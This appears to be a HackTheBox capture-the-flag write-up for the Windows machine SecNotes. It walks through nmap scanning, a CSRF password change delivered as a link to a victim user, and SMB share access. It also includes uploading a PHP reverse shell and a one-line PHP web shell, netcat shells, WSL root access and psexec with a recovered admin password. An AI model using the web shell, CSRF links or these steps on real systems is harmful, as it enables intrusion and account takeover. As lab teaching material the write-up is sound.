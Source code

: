 ```yaml
---
title: "HackTheBox - SecNotes"
author: Nasrallah
description: ""
date: 2023-03-21 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, csrf, wsl, smb]
img_path: /assets/img/hackthebox/machines/secnotes
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [SecNotes](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
PORT     STATE SERVICE      VERSION                                                                                                                           
80/tcp   open  http         Microsoft IIS httpd 10.0                                                                                                          
| http-methods:                                                                                                                                               
|_  Potentially risky methods: TRACE                                                                                                                          
|_http-server-header: Microsoft-IIS/10.0                                                                                                                      
| http-title: Secure Notes - Login                                                                                                                            
|_Requested resource was login.php
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-17T09:21:37
|_  start_date: N/A
|_clock-skew: mean: 2h20m01s, deviation: 4h02m32s, median: 0s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00 
|   Workgroup: HTB\x00
|_  System time: 2023-03-17T02:21:38-07:00
```

We found 3 open ports, 80 and 8808 are IIS http web server and 455 is SMB.

## Web

Let's navigate to the web page on port 8808.

![](11.png)

It's the default page for IIS and nothing really useful can be found.

Let's go to port 80

![](1.png)

We found a login page, the first things usually tried when facing a login form is sql injection and default credentials but none of that worked.

Let's go to the register page.

![](2.png)

After registering a user, let's log in.

![](3.png)

Once logged in, we see a message from `tyler` saying that we can contact him on the contact page.

We also see that we can create notes, change passwords and sign out.

Testing the note functionality we find it's a vulnerable to XSS.

![](4.png)

I also make a cookie stealer but didn't get anything.

Let's move to the change password functionality.

![](5.png)

To change to password, we send a POST request with the following parameters.

```text
password=pass123&confirm_password=pass123&submit=submit
```

Let's test if we can change the password using a get request using the following url.

```url
http://10.10.10.97/change_pass.php?password=pass321&confirm_password=pass321&submit=submit
```

![](6.png)

We managed to change the password with the get request.

Now let's go the contact page.

I setup a web server on my local machine and sent a link of my address to tyler in the contact page.

![](7.png)

The link got clicked


# **Foothold**

Knowing that we can change password using a GET request, and that `tyler` do click links we send him, let's send him the GET request for password change and see if it works.

```bash
http://10.10.10.97/change_pass.php?password=pass321&confirm_password=pass321&submit=submit
http://10.10.17.90/password_changed_successfuly
```

The second url is used to tell me if the links has been clicked.

![](8.png)

After getting a hit our web server, we go to the login page and login as tyler with the new password.

![](9.png)

On one of the notes we see tyler's password for the share `new-site`.

Let's list the smb share as user `tyler` using the password.

```terminal
$ sudo smbclient -L 10.10.10.97 -U tyler                                                                                                           130 ⨯
Enter WORKGROUP\tyler's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        new-site        Disk      
SMB1 disabled -- no workgroup available
```

Let's connect to the `new-site` share.

![](10.png)

We found and html file and a png image, those are the default file for the IIS web server so this share must be the root for the website on port 8808.

Let's test this theory by uploading a file to the share and see if we can request it.

![](12.png)

It worked.

To get a reverse shell, we can upload a php reverse shell.

![](13.png)

We got a shell bu there is a script delete file in the share causing our shell to die.

To solve that we upload a copy of netcat and the php shell to the share, once we get a shell, we use netcat to get another shell.

The problem is we got a shell as `newsite`, to get a shell as tyler i uploaded the following php web shell.

```bash
<?php SYSTEM($_REQUEST["cmd"]);?>
```

Then used it to execute netcat for a shell.

![](14.png)

![](15.png)


# **Privilege Escalation**

On `tyler`'s desktop we find the following.

![](16.png)

There is a shortcut to `bash` which means there is a WSL(Windows Subsystem for Linux), let's locate `bash.exe` using the following command.

```bash
where /R /c:\ bash.exe
```

![](17.png)

We found bash at `c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe`, we run it and got a shell as root.

Checking the root directory, we see that the history file is not empty.

![](18.png)

On the history file we managed to get the administrator's password.

We can use that password to get a shell using `psexec`.

![](19.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).